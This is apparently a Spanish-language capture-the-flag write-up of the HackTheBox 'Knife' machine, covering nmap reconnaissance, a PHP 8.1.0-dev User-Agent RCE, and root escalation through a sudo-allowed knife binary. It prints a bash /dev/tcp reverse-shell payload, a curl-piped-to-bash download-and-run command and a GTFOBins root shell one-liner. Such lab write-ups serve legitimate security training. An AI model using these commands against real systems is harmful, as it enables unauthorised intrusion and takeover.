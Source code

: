 ```yaml
---
title: Knife
date: 2024-07-07 22:15:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Linux
tags:
  - PHP 8.1.0-dev
  - Abusing Sudoers
image:
  path: /assets/img/Knife/Knife.png
---
```


## Skills

- PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
- Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
  
## Certificaciones

- eJPT
  
## Descripción

`Knife` es una máquina `easy linux` donde estaremos vulnerando la máquina a través de un `rce` (remote code execution), el cual obtenemos al `explotar` el `php 8.1.0-dev`. Mediante el `rce` nos enviamos una `reverse shell` a nuestro equipo y posteriormente `escalamos privilegios` abusando del `sudoers`

---
## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `linux` suele ser `64`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.7.60 
PING 10.129.7.60 (10.129.7.60) 56(84) bytes of data.
64 bytes from 10.129.7.60: icmp_seq=1 ttl=63 time=155 ms
64 bytes from 10.129.7.60: icmp_seq=2 ttl=63 time=1542 ms
64 bytes from 10.129.7.60: icmp_seq=3 ttl=63 time=594 ms
^C
--- 10.129.7.60 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3011ms
rtt min/avg/max/mdev = 155.024/763.527/1541.628/578.642 ms, pipe 2
```
### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -v 10.129.7.60 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:06 CEST
Initiating SYN Stealth Scan at 10:06
Scanning 10.129.7.60 [65535 ports]
Discovered open port 22/tcp on 10.129.7.60
Discovered open port 80/tcp on 10.129.7.60
Completed SYN Stealth Scan at 10:07, 23.98s elapsed (65535 total ports)
Nmap scan report for 10.129.7.60
Host is up (0.092s latency).
Not shown: 45604 closed tcp ports (reset), 19929 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
           Raw packets sent: 118385 (5.209MB) | Rcvd: 110593 (4.424MB)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 22,80 10.129.7.60 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:09 CEST
Nmap scan report for 10.129.7.60
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
### Web Enumeration

Cuando `accedemos` al servicio `web` visualizamos lo siguiente

![](/assets/img/Knife/image_1.png)

`Fuzzeamos` en busca de `rutas` y no encontramos `nada`, con wappalyzer vemos las tecnologías que se están usando en la página web

![](/assets/img/Knife/image_2.png)

Usamos `whatweb` para obtener más `información` y al parece la `versión` de `php` es `8.1.0-dev`

```
# whatweb 10.129.234.175
http://10.129.234.175 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.234.175], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Debido a que no hemos encontrado más puertos abiertos ni por TCP ni por UDP, tampoco hay virtual hosting y fuzzeando en busca de nuevas rutas no hemos encontrado. Vamos a buscar vulnerabilidades en google para la versión 8.1.0 de php, para esto hacemos la búsqueda la siguiente búsqueda > `php 8.1.0 exploit`

![](/assets/img/Knife/image_3.png)
## Web Exploitation

Al parecer es `vulnerable` al `exploit` encontrado y obtenemos `acceso` a la máquina víctima

```
# python3 exploit.py 
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
Enter the full host url:
http://10.129.234.175

Interactive shell is opened on http://10.129.234.175 
Can't acces tty; job crontol turned off.
$ whoami
james
```
## Intrusión

Procedemos a mandarnos una `reverse shell`, lo primero es crearnos en nuestra máquina una archivo llamado `shell` en su interior haya este `payload`

```
bash -i >& /dev/tcp/10.10.16.15/443 0>&1
```

En el `mismo directorio` donde nos hemos creado el archivo `shell`, no ponemos en `escucha` con `python` por el `puerto 80`

```
# python -m http.server 80
```

Nos ponemos en `escucha` también por el `puerto 443` para recibir la `shell`

```
# nc -nlvp 443
```

Desde la máquina víctima nos mandamos un `curl` a nuestra máquina y el output lo pipeamos con `bash`

```
$ curl http://10.10.16.15|bash
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
james@knife:/opt$ whoami
james
```
## Privilege Escalation

Una vez dentro de la máquina víctima vemos si podemos `ejecutar` algún `binario` con `sudo`

```
james@knife:/opt$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Buscando en [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/) nos damos cuenta de que mediante este binario podemos `escalar privilegios` y convertirnos en usuario `root`

```
james@knife:/opt$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
